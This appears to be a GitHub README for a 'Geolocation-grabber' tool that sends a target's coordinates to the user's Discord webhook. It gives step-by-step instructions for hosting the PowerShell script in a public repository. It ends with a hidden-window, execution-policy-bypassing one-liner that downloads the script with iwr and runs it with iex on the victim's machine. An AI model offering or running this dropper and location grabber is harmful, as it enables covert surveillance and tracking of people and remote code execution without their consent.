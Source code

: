 # Geolocation-grabber
Sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>Download geolocationGraber.ps1.txt<p/>
<p>Edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>Save <p/>
<p>Create a new repo in public <p/>
<p>Add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>Click geolocationGraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>Click the pen<p/>
<p>Delete .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>Commit changes <p/>
<p>You should be left with geolocationGraber.ps1<p/>
<p>Click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>Click raw<p/>
<p>Copy that link <p/>
<p><p/>
<p>Paste that link in the line below where it says paste here <p/>
```
 PowerShell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex 
``` 
